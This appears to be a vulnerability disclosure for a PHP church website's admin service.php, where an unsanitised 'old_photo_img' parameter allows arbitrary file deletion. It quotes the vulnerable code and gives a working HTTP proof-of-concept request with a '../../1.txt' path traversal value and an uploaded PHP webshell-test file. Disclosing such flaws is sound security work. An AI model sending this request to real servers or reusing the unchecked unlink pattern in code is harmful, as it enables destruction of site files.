 ### Vulnerability file address

In line 52 of `church/admin/app/service.php`, `@unlink("../../assets/images/" . htmlspecialchars($_POST['old_photo_img'], ENT_QUOTES, 'UTF-8'))`,` $_POST['old_photo_img']` parameters have not been restricted, which causes any file to be deleted

```php
<?php
session_start();
include '../../assets/constant/config.php';

try {
    $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    if (isset($_POST['submit'])) {

        $filepath = "../../assets/images/" . htmlspecialchars($_FILES["photo"]["name"], ENT_QUOTES, 'UTF-8');

        if (move_uploaded_file($_FILES["photo"]["tmp_name"], $filepath)) {
            $img = htmlspecialchars($_FILES["photo"]["name"], ENT_QUOTES, 'UTF-8');
        } else {
            echo "Error !!";
        }


     


        $stmt = $conn->prepare("INSERT INTO `service`(`heading`,`short_content`,`photo` , `metatitle`,`metadescription`,`keywords`,`robots`) VALUES (?,?,?,?,?,?,?)");

        $stmt->execute([
           
            htmlspecialchars($_POST['heading'], ENT_QUOTES, 'UTF-8'),
            htmlspecialchars($_POST['short_content'], ENT_QUOTES, 'UTF-8'),
           
            $img,
        
            htmlspecialchars($_POST['metatitle'], ENT_QUOTES, 'UTF-8'),
            htmlspecialchars($_POST['metadescription'], ENT_QUOTES, 'UTF-8'),
            htmlspecialchars($_POST['keywords'], ENT_QUOTES, 'UTF-8'),
            htmlspecialchars($_POST['robots'], ENT_QUOTES, 'UTF-8'),
         
        ]);

        $_SESSION['success'] = "success";

        header("location:../manage_service.php");
    }

    if (isset($_POST['update'])) {
        // Update main photo
        if (!empty($_FILES['photo']['tmp_name'])) {
            $file_extension = pathinfo($_FILES["photo"]["name"], PATHINFO_EXTENSION);
            $new_filename = uniqid() . '.' . $file_extension;
            $filepath = "../../assets/images/" . $new_filename;
            if (move_uploaded_file($_FILES["photo"]["tmp_name"], $filepath)) {
                $img = $new_filename;
                @unlink("../../assets/images/" . htmlspecialchars($_POST['old_photo_img'], ENT_QUOTES, 'UTF-8'));
            } 
```

### POC

```http
POST /church/admin/app/service.php HTTP/1.1
Host: www.church.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=kecn6qqrggjnvlpgliqeq951j0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 399

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo_img"

../../1.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo";filename="6666.php"

<?php echo "this is webshell test"; ?>
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--

```

### Attack results pictures

First, we create a `1.txt` file in the `church/` directory

![image-20250221165123765](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211651804.png)



Then we execute the above poc to attack

![image-20250221165243521](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211652559.png)



Files are deleted after the attack is successful

![image-20250221165258012](/Users/xianyu123/Library/Application%20Support/typora-user-images/image-20250221165258012.png)